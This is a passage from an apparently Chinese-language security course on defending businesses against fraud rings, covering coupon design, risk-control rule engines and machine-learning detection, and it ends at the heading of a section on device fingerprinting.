相比于我们使用各种复杂的策略和算法对每一次登录行为进行判定，安全产品方案的实现更简单一些，只需要增加一个基本功能就足够了。而且安全产品方案其实不识别黑产，也就不存在误伤和漏判，只需要**考虑用户体验的损伤**就足够了。因此，一个安全的产品方案是对抗黑产最有效的防护手段。


#### 满减红包代下单例子

下面，我们再以**“满减红包”为例**，来讨论一下产品方案中需要考虑的防控因素有哪些。 

“满减红包”是各类电商、O2O 领域中最常见的**促销手段**。但是这种促销手段，很可能因为产品方案不当引来黑产的攻击。比如，前两年“饿了么”对新用户的补贴较多的时候，就有人利用新用户的大额红包代下单外卖，实现获利。

我们来看看“满减红包”常见的维度有哪些。 


可以看出，通过对**领取条件、满减金额和有效期**进行不同的限制，我们就可以设计不同的产品方案，来达到不同的安全等级。下面，我们来具体分析一下。 

- 领取条件：注册就给红包，会给与黑产极大的便利。而下单后再减，能刺激用户再消费，有了前一单的收益，下一单的红包补贴就基本不会亏。当补贴减少时采取会员制，公司就能通过会员费来增加额外的收入。
- 满减金额：满减条件同样是需要慎重把握的一个方案。满 10 减 10，相当于不需要黑产付出任何成本，不需要绑定银行卡等其他的操作。一旦变成满 10.01 减 10，效果就天差地别了。想要支付这多出的 1 分钱，黑产必须进行一个完整的支付流程，必须绑定银行卡等其他支付方式，这些都是额外的成本。而满 30 减 10，对公司来说应该是稳赚不赔的，也就不需要考虑漏判的风险。
- 有效期：有效期过长同样会给黑产带来便利。因为黑产售卖“满减红包”或者“代下单”，是需要时间来找买家的。所以，有效期越长，黑产卖红包的时间就越长。如果把有效期设为 2 天，黑产就很有可能面临优惠券卖不出去而过期的风险，收益就会大大降低。 

那平台是如何限制“代下单”这种行为的呢？最常见的，当饿了么下单的**手机号变更**时，是不允许使用之前的红包的。而且，饿了么也**不允许备注中出现手机号**。这些产品方案其实都是在提高黑产“代下单“的成本。


#### 小结

总结来说，安全产品方案是不存在标准答案的，更多的是**根据业务的诉求来进行衡量**。但在任何情况下，我都不建议忽略掉安全产品方案。为什么这么说呢？

其实，借助刚才的分析我们就能知道，满减条件中的满 10 减 10 和满 10.01 减 10，对正常用户来说没有什么区别，却能给业务安全带来极大增益。因此，我们可以在业务发展初期，适当降低安全产品方案的复杂程度，但是仍然要保持必要的信息和数据收集。在业务稳定后，再逐步进行完善和升级。

提升应用安全性的产品方案还有很多。我总结了一些常见的例子，你可以了解一下。

- 在邀约活动中，我们可以适当增加用户任务的难度，如必须连续活跃三天用户才能得到收益；
- 在抽奖活动中，我们可以增加参与抽奖的门槛，如必须是注册一个月以上的老用户才能参加；
- 在排行榜活动中，我们可以将排行榜的计算规则隐藏，让黑产摸不清刷的方式。这些常见的安全产品方案可以提升黑产攻击业务的成本，让业务更安全。


### 总结

在业务安全中，NIST 的安全框架 IPDRR 可以指导我们与黑产进行对抗，实现全面防护，避免安全短板的出现。

识别和保护是 IPDRR 中的前两个步骤，主要的工作是进行威胁评估和制定安全产品方案。其中，威胁评估的主要过程其实就是基于业务形态，对黑产可能的获利点、业务的目标用户、安全的实时性要求、策略的误伤和漏判影响进行综合的评估。

评估完成之后，你就能够知道，业务安全的目标和要求是什么。安全产品方案则是提高黑产资源成本的第一道防线，通过适当地增加用户操作的复杂度，来提高黑产的各类资源成本。安全产品方案实现起来比较简单，且没有误伤和漏判，是业务安全中十分简单有效的一环。

业务安全同样讲究纵深防御，任何一个单点的防御机制都有其缺陷，很容易被黑产绕过。因此，对业务安全来说，在部署风控系统之前，我们要先进行威胁评估，然后设计出一个安全的产品方案。这样一来，我们就能够在根本上提高黑产的资源成本，大大提升业务的安全性。


### 思考题 

试着分析一下，在你负责的业务或者应用中，有哪些产品方案是为了安全考虑的。黑产有什么办法可以绕过这些产品方案呢？还有哪些方法可以进一步提升黑产的资源成本？ 


## 风控系统（检测）

在上一讲中，我们讲了如何通过安全的产品方案，提升黑产攻击业务的资源成本，降低应用被攻击的风险。当然，仅靠产品方案是没办法完全抵御黑产的。因为在产品方案中，我们还需要对用户体验进行关注。

比如说，为了拦截黑产盗取他人账号登录，或批量登录自有账号的行为，我们的产品方案可能是，通过加入短信验证、人脸验证和滑块验证来提高登录的门槛。当你在登录一款应用的时候，如果需要进行两次甚至是三次的验证操作，那么，这种**糟糕的体验感**很有可能驱使你放弃使用这款应用。 

为了解决这个问题，在业务安全中，我们会采取折中的方案：如果识别到一次登录行为是异常操作，那么就弹出多次验证；如果识别是正常操作，就让其用简单的用户名密码登录即可。

对于一款热门的应用来说，一天可能要面临上亿次的登录行为。这其中有正常用户的登录行为，也有黑产的登录行为，我们应该如何从海量的登录数据中准确地判定它们呢？这就是IPDRR 中的检测，也就是我们常说的风控系统需要完成的事情。

### 如何理解风控系统

简单来说，风控系统就是**从业务数据中挖掘出黑产行为的数据分析系统**。我们可以通过对比产品方案来深入理解风控系统。 

- 产品方案抵御黑产的方式，是普适性地提高用户的使用成本，不区分用户是否是黑产。因此在产品方案中不存在数据挖掘和分析的工作。
- 在风控系统抵御黑产的过程中，为了不增加正常用户的使用成本，我们必须对黑产用户进行区分，然后告诉业务只对黑产进行拦截，放行正常用户。而区分黑产就需要对海量的业务数据进行分析和挖掘了。 

总结来说：产品方案属于事前的防控，是从根本上提高黑产操作的成本；风控系统属于**事中的防控**，是在检测到黑产行为时才进行拦截。

目前，风控系统的整体框架已经基本成熟了，各个公司的风控系统也都大同小异。

一般来说，一个完整的风控系统框架应当包括**前端 SDK、规则引擎和验证流程**。

但是，一个完整的风控流程还需要**人工进行数据分析、处理用户投诉、监控舆情，并采取应急响应机制**。

完整的风控流程如下图所示： 


### 前端 SDK 采集数据

想要在风控中做好数据分析，数据当然是**越多越好**。我们只有尽可能多地采集各类用户的数据，才能够更准确地识别黑产。各类用户数据包括用户身份信息、行为记录、设备类型、鼠标或者屏幕点击轨迹等。

但是，业务在正常的开发过程中，一般不会采集和业务无关的数据（比如设备相关的信息）。为了解决这个问题，风控系统通常会提供一个前端 SDK。前端 SDK 由业务集成在前端应用中，它可以采集各类前端数据，如**手机型号、硬件类型**等。 


除此之外，前端 SDK 还会计算出一个唯一的**设备指纹**，通过这个设备指纹，我们就能够实现对设备行为的追踪。


### 规则引擎识别黑产

采集到业务数据之后，我们就要对其中的黑产进行识别了。在风控系统中，一次操作行为是来自黑产还是正常用户，是由规则引擎来决定的。

规则引擎会接收到业务提供的原始数据，而想要从中识别出黑产，我们首先需要通过一些**统计手段**找到其中有用的特征。那什么是“有用的特征”呢？

举个例子，想要从登录行为中识别出黑产，仅仅知道设备指纹是不够的，我们还需要知道，这个设备在最近一段时间内发起了多少次登录请求。这就是**特征提取**需要进行的工作了。

经过特征提取得到特征之后，我们就需要**制定规则**对登录行为进行判定。比如说，我们可以定义，一个设备在 1 分钟内登录 5 次的行为属于异常行为，应当进行拦截。

这样一来，当有新的登录行为发生时，通过规则引擎，我们就可以直接判定其是否为黑产。规则引擎的识别过程如下图： 


那么，应该如何做好一款规则引擎呢？我认为关键在两个方面：**采用正确的工作模式、设计高效的规则管理功能**。下面，我们就来具体看一下。 


#### 正确的工作模式 

规则引擎可以分为**同步、异步和离线**三种模式。

下面，我就以**登录场景为例**，为你解释一下这三种模式的工作过程。

- 在同步模式下，用户输入完用户名密码之后，需要先经过规则引擎的判定，只有正常用户才能够正常登录，黑产则直接被拦截，不允许登录。
- 在异步模式下，用户一开始是可以正常登录的，登录后才交由规则引擎判定，如果最终确定是黑产，则会被封号或者踢出登录状态。
- 离线模式的效果和异步模式一致，不过异步模式通常会在几秒到几分钟的时间内完成判定和处罚，离线模式则需要几小时甚至一天的时间才能够完成判定。

这三种模式的工作过程如下图： 


我们知道，实时性越高、对黑产拦截得越及时，黑产所能够获得的收益也就越少。那是不是我们都采用同步模式就好了呢？当然不是。相比于同步模式，异步和离线模式在业务接受度和数据分析能力上都更优。

- 首先，**同步模式需要侵入到业务的正常流程中**，这对于业务来说，一方面会产生较高的接入改造成本，另一方面，也给业务的正常运行带来风险。因此，我们经常会遇到业务不接受同步模式的情况。
- 其次，**实时性越高，我们获得到的信息就越少**。以登录的场景为例，同步模式下的拦截行为发生在成功登录之前，所以，我们无法知道用户名密码是否正确。异步和离线是事后的分析，所以我们能够知道用户是否登录成功。显然，连续登录失败比连续登录成功更可疑。因此，用户是否登录成功这个信息，对于我们提升识别准确率会有很大的帮助。
- 而**实时性越低，我们和黑产的对抗优势也就越多**。如何理解这句话呢？我们来看实时性最低的离线模式。通常来说，离线模式能慢慢处理和运行几天甚至是几个月的数据。而数据越多，规则引擎的准确率和召回率也会越高，所以我们的优势也就越多。
- 最后，即使是使用同步模式，我们也**需要使用异步和离线模式做数据分析和规则验证**，这样才能保障同步模式的判定结果不会出现太大的误伤。 

因此，在大部分情况下，我更**推荐使用异步或者离线模式**，仅在部分没办法做事后的拦截和处罚的业务场景中，我们才会使用同步模式。

举个例子，在**提现操作**中，提现成功后，钱就已经从公司转移到黑产手里了，我们没有办法追回，因此我们必须采用**同步模式**，在提现操作前对黑产进行拦截。 


#### 高效的规则管理 

如果你做过数据分析工作，一定知道同步、异步、离线其实都是数据分析工作中常见的模式，已经有很成熟的工具来为它们服务了，比如：

- 通过 Redis 完成实时计算；
- 通过 Flink 完成异步计算；
- 通过 Hive 完成离线计算等。

因此，规则引擎不存在技术上的独特性。

但是，我认为特别“完美”的规则引擎还没有出现。因为规则管理有**较高的复杂性和独特性**。换一句话说就是，想要新建一条规则并执行是一件很容易的事情，但如何**高效管理成百上千的规则**，让风控人员和业务人员能够清晰地看到每个规则的效果、准确率和实际意义，是一个很有挑战性的工作。

> 就拿最出名的**开源规则引擎 Drools**来说吧。Drools 定义了一套自有的 IF 匹配语言DRL，并提供了基于 Rete 算法的高效规则执行功能。然而，Drools 并没有提供十分高效的规则管理工具。

而高效的规则执行功能所能带来的性能提升，其实并不会特别明显。因为**规则引擎的复杂度其实在于特征提取**。特征提取完成之后，规则管理基本就是简单的 IF 匹配了。因此，我认为 Drools 并不是一个适用于风控系统的规则引擎。

除了 Drools 之外，部分规则引擎也会尝试使用 **Web 界面**的方式来降低规则管理的复杂度。比如，在一些开源的风控系统中（比如 Nebula），我们可以看到各种用来增加修改规则的 Web 页面。

但是，各个公司的规则形式，以及各个业务对规则的理解都不尽相同，因此，你在使用这些开源风控系统的时候，**总会有部分需求无法实现**。所以，我才说“规则管理需要较高的**灵活性**才能够适用于各个业务”。而矛盾的是，灵活性过高又会大大提高规则管理的复杂性，因此，我们必须慎重把握规则管理的灵活性。 

目前来看，我觉得比较好的解决方案是，**使用 Aviator、 QLExpress、 Groovy等在Java 中提供动态开发支持的语言，来进行底层的规则执行**，在此基础之上，我们再去封装自己理解的规则管理。这样一来，我们就实现了灵活性和复杂度的平衡。 


当然，你可能会想到使用**机器学习**来解决规则管理的难题。总结来说，规则引擎是风控系统的核心。想要做好一个规则引擎，我们需要思考清楚两件事情：

- 第一，规则引擎以什么样的模式接入业务；
- 第二，如何进行规则管理。


### 验证流程拦截黑产

事实上，当我们使用规则引擎识别出一个用户行为可能是黑产的时候，不能够直接进行拦截。因为**规则引擎的判定结果永远存在“误伤”**。有时候为了尽可能不漏过黑产，“误伤”的比例会很高。

> 比如说，当用户因为忘记密码多次登录网站失败的时候，网站就会怀疑这是黑产在进行操作。这个时候，我们如果直接拦截，就会收到大量的用户投诉。

为了解决这个问题，风控系统中加入了**验证流程**。采取适当的验证流程，我们可以降低拦截机制对用户体验的影响。所以，在上面的例子中，网站会使用滑块验证码来验证你是否是黑产。

基于业务场景的不同，验证的方式还有很多，比如，**核验身份的短信认证、人脸识别，区分人机的图片验证、滑块验证**等。很多应用都会对存疑的用户和行为施加各种验证流程，来保障用户身份的真实可靠。所以，为了让风控系统成功落地，验证流程是我们不能忽视的一个环节。


### 有哪些风控人员

和 SIEM 一样，风控系统的成功运行离不开各类人员的持续投入。风控人员一般分为**策略人员、运营人员和应急响应人员**。下面，我就来说说他们是如何推动风控系统落地的。

- 策略人员：在规则引擎中，策略人员需要对业务的数据进行分析，产出准确的规则和模型。而且，随着和黑产的对抗升级，策略人员还需要对规则和模型不停迭代。
- 运营人员：除了数据分析和规则迭代以外，规则引擎的“误伤”也必然会导致部分用户的不满和投诉。因此，运营人员需要对投诉情况进行处理和监控，避免风控系统出现大规模的“误伤”。同时，因为会有的黑产高调宣扬自己从业务中获利的成功经历，所以，运营人员还需要对黑产的言论和动向进行把控，来感知风险。
- 应急响应人员：最后，对于大规模误伤或者漏洞造成的严重影响，应急响应人员需要及时跟进处理，来进一步减少业务的损失。


### 总结

一个完整的风控系统需要结合业务全流程。

前期需要通过前端 SDK 采集设备数据，然后结合业务的离线数据，由算法或者策略人员进行数据分析，整理出具体的规则。接着，通过同步、异步或者离线的方式和业务进行对接，并基于规则对业务数据进行判定。

如果发现了黑产的用户和行为，风控系统还需要提供对应的验证流程，来降低对用户体验的损伤。最后，风控系统还需要保持对用户客诉、黑产舆情的监控，及时发现、响应和处理风险，降低业务的损失。

规则引擎作为风控系统的核心，主要分为特征提取和规则管理两个部分。

- 特征提取可以依靠现有的各类大数据处理框架实现。
- 规则管理则因为各个公司和业务对规则的复杂度和灵活度要求不同，很难有非常合适的解决方案，需要我们根据不同的情况灵活调整和实现。 


### 思考题

你可以调研并试用一些开源的风控系统，试着思考一下，在这些系统中，有哪些功能对你的业务有帮助。接着，你可以再试着分析一下，业务有哪些痛点是这些系统无法满足的。 


## 机器学习（规则引擎）

通过建立一个成熟的风控系统，你能够快速建立起和黑产进行持续对抗的稳固防线。但是，风控系统和规则引擎仅仅是一个平台和工具。想要真正对黑产进行识别，我们还得依靠**规则引擎中运行的规则策略**。

当然，**规则的维护主要是依靠人力**来进行的。但是这样的维护方式会有两个弊端：首先，人的工作效率会受各种因素影响，所以对抗的实效性很难保障；其次，规则的维护受到人的主观意识的影响，可能会产生一些“偏见”。 

对于上述这两个问题，机器学习是一个理想的解决方案。因为，机器学习不仅可以无休止地工作，还会完全依据客观事实产生结果。

而且，机器学习对于基础安全来说，同样是一个提升规则维护效率的理想方案。因为各类防御工具（如：防火墙、IDS、WAF 等）也都是基于规则来运转的。

### 如何正确认识机器学习

机器学习这几年非常火热，我相信你一定了解过一些相关的概念，对机器学习也有自己的理解。但是，很多人都对机器学习有着过高的预期，认为机器学习“无所不能”，而这种高预期会误导我们错误地使用机器学习。因此，我想先和你明确一下，机器学习在安全领域中能干什么、不能干什么，让我们对机器学习在安全领域中的应用有一个正确的预期。

一般来说，**机器学习是通过找出未知的规则参数来区分已知的行为**。这句话怎么理解呢？

我来举个例子你就懂了。在生活中，我们能够快速地分辨一张图片是猫还是狗。那你有没有思考过，我们是怎么进行识别的？根据五官、颜色还是形状？仔细回想一下，你就会发现，我们往往是根据经验来判断的，很难用文字描述出准确的判断依据。

同样地，对于一次请求或者操作，我们通常能够依据经验判定其是否是安全攻击。但是判定的依据具体有哪些，往往说不清楚。在这种情况下，机器学习就可以帮助我们**将脑海中的模糊经验，总结成客观的规则参数**，从而挖掘出恶意的攻击行为。

你会发现，机器学习挖掘恶意攻击的前提，是攻击行为必须能够被人为的判定，只是判定过程比较模糊和复杂，无法通过制定简单的规则进行人为的区分。因此，机器学习实际上是**对人为经验的一种总结**，并不具备创新的能力，所以最终对抗效果的好坏，还是取决于人的对抗能力。


### 无监督学习

机器学习可以简单分为无监督学习和有监督学习，我今天也会按照这个分类来讲。

很多人认为，无监督学习就是在没有标签的情况下去找寻分类，发现所谓的“未知的威胁”，其实不然。实际上，**无监督学习的目的是挖掘数据的分布特征**，主要包括**数据的聚集特征**（也叫聚类特征，是通过聚类算法获得）和**分布规律**（也叫离群点，通过时序算法获得）。这些特征和规律能够帮助你发现异常的情况，但是不能帮你定位异常的行为。

因此，如果想使用无监督学习来判定正常和异常行为，我们就需要**对行为的整体分布有一个先验假设**，常见的如：正常行为由正常用户产生，行为各有各的不同；恶意行为是少数人批量产生，行为会比较相似。

我曾经和几家乙方安全厂商聊过，有些厂商明确地表示过，他们正是基于这个假设，采用无监督学习进行业务风控识别的。从直觉上来说，这样的思路是没问题的，因为**黑产大都是通过批量的行为来获取非法利益的**，所以必然会在 IP、设备、行为、关联关系等各个方面露出一些马脚，被我们识别出来。但是，当落地到具体的场景时，这个假设并不完全成立。

举个例子，在业务安全中经常会遇到**“垃圾小号问题”**，我们通常是通过批量特征来进行挖掘的。下表是同一天注册的一批账号，以及它们对应的行为特征。我们可以通过 FP-Growth 算法对其行为进行关联分析，找到行为相同的一批账号。比如，表中的账号 2 和账号 3、账号 6 和账号 7，就存在高度的相似性。 


那这种相似是不是就意味着这几个账号是黑产呢？这个理由显然并不充分。因为**这种相似性可能只是一种巧合**。比如，一个寝室的同学都刚开始使用微博，他们的行为和兴趣都很相似。因此，我们并不能基于这个无监督学习挖掘出来的聚类特征，对这些账号进行处罚。

但是，如果 1 月 1 日注册了 100 个账号，其中一半的账号都被关联分析挖掘出了聚类，那我们就无法用巧合去解释了，这就说明必然出现了黑产的攻击。 

因此，我们可以**将无监督学习当成一个评价和监控方法**。比如，在没有黑产攻击的时候，注册账号的聚类占比可能低于 10%，那当某一天的值高于 10% 的时候，就说明可能出现黑产攻击了。但是，无监督无法准确地告诉你，哪些聚类是黑产的。所以接下来，我们就需要**人工进行分析**了。

在基础安全领域中，无监督学习也可以通过类似的原理来应用。

举个例子，**IDS 判定一台服务器是否被黑客控制的思路**，可能是**服务器访问的外部服务数量是否异常**。通常来说，服务器访问的外部服务越多，越有可能存在扫描的嫌疑。同样地 ，这个假设也不绝对成立，因为你永远无法预估开发到底会使用多少外部服务。

但是，当我们去实际统计服务器访问的外部服务数量时，会发现它呈**指数分布**。也就是说大部分服务器只访问少量的外部服务，而访问服务数越多，对应的服务器就越少，如下方右图所示。（横轴是外部服务数量，纵轴是服务器数量） 


如果你发现某一集群内的服务器对应外部服务数量分布和指数分布，存在了**明显的偏离**（如上方左图所示），就说明这个集群内的服务器出现了异常情况，有可能是被黑客控制了。那接下来，我们再针对这些偏离较远的服务器，进行人工排查即可。

所以说，通过应用无监督学习，我们能够发现整体数据中的异常情况，然后只需要根据相应的报警去分析疑似异常的数据就可以了。相比于人工去分析全量数据，无监督学习能够大大提升风控效率。


### 有监督学习

有监督学习的基础是**标签数据，标签就代表着已知**。所以，**有监督学习的最大作用就是用来挖掘“已知的威胁”**。如果想要保持和黑灰产的持续对抗，我们就必须不断地生产标签数据（也叫“打标”），供有监督学习的算法来学习。但是，依靠**人工去生产标签数据**是不可行的。你可以先试着思考一下，不可行的原因都有哪些，然后再来看我下面的讲解。我认为主要有三方面原因。

第一，**时间成本高**。

在图片识别等领域，对一个图片“打标”只需要一个普通人花几秒钟的时间。但是对于一个安全类的数据，一个安全人员可能需要花费几十分钟甚至几个小时，才能够确定这次行为到底是不是恶意行为。

第二，**覆盖面不全**。

由于时间成本高，我们无法进行全量数据的“打标”。而且人是存在懒惰心理的，因此人为“打标”时，总是会倾向于优先处理相对明显的数据，那么相对隐秘的攻击行为，就很容易在“打标”过程中被忽略。

第三，**标准偏差**。

恶意与正常往往没有明确的界限，不同的安全人员对于安全的认知和要求也不同。比如，一次简单的端口扫描算不算恶意行为呢？一个专刷明星的帐号算不算垃圾账号呢？不同的人会有不同的判断，这种判断标准的偏差会导致最终产生的标签数据分布不一致，这对机器学习的结果也将产生较大的影响。

因此，想要成功地应用有监督学习，我们就必须**找到客观、高效的“打标”方案**。在基础安全领域中，黑客的最终目的无非是获取数据、篡改程序、拒绝响应等。所以，我们其实可以通过数据的 CIA 是否受到影响来进行标记，获得最终的判定标签，然后将标签进行回溯，从而获得表层的标签数据。

举个例子，**WAF 是通过获取 HTTP 相关的数据**（如：路径、参数、header、ua 等）来找出恶意的 HTTP 请求，从而对 Web 攻击进行检测拦截的。但是 WAF 并不知道这个请求具体会干什么，执行什么样的逻辑，所以它的评判标准只能是“带有 XXX 特征的请求是恶意请求”。如果想持续不断为 WAF 提供标签数据，靠人力肯定不行，我们应该深入追踪下去，以最终结果对数据进行自动“打标”。

**RASP 的检测思路**正是如此，就是直接深入到 Web 程序的逻辑，根据运行情况去评判该请求是否是攻击行为。因为是**对 HTTP 请求的最终行为进行评判**，所以 RASP 可以实现所谓的“无规则检测”，准确率和召回率都有保证。

如果我们利用 RASP 对影响数据 CIA 的 HTTP 请求进行打标，然后由 WAF 去学习这些HTTP 请求具有什么样的特征，那么一个完整的机器学习**闭环**基本就形成了，如下图所示。 



**业务安全**其实也可以尝试同样的思路来生产标签。比如，我们可以通过对接口签名校验、虚拟设备判定等方式，对异常的行为进行标记，作为业务安全中标签数据的来源。在此基础之上，我们再使用有监督学习算法去学习异常行为的特征，让业务风控的机器学习算法能够不断更新和迭代。

另外，我**不建议直接根据标签数据进行拦截**。因为我们一旦进行拦截，这些生产标签的指标就会暴露，就会促使黑产进行研究和对抗，那么标签的准确性就会受到影响。

除此之外，我们也可以采用一些相对间接的方法：比如，通过用户反馈来获取异常的行为数据；再比如，**标记**一部分已知的恶意用户，但是不处理这些用户，而是将它们产生的行为都当成恶意行为来标记。

总而言之，想要成功地运用有监督学习，我们必须找到一个合理的打标方案，持续不断地产出可靠的标签数据。在此基础上，我们才能够运用各种高上大的算法，去挖掘安全领域中的“已知的威胁”。


### 总结

在安全领域应用机器学习的时候，我们要注意：机器学习并不是一个万能的工具，它无法发现“未知的威胁”。因此，在和黑产对抗的过程中，**“人”始终是对抗过程中最关键的部分，而机器学习更多的是一种提升效率的工具**。

对于无监督学习，我们可以利用它的原理，来发现异常的聚集和离群点。尽管这些聚集和离群点，因为准确率不足无法全部被判定成攻击行为，但聚集和离群点的数量和分布，仍然反映出了整体的异常情况。而对于有监督学习，我们需要设计一个合理的标签系统，来尽可能自动化地生成标签数据，从而保持算法的持续更新和迭代。 


### 思考题

基于今天给出的机器学习应用思路，你能分析一下，在你负责的业务安全场景中，有哪些风险是可以通过无监督或者有监督学习算法来分析的吗？应该如何进行分析呢？

另外，如果你了解**深度学习和图算法**的话，那么不妨试着思考一下，深度学习和图算法是如何在安全领域中使用的。 


# 设备指纹


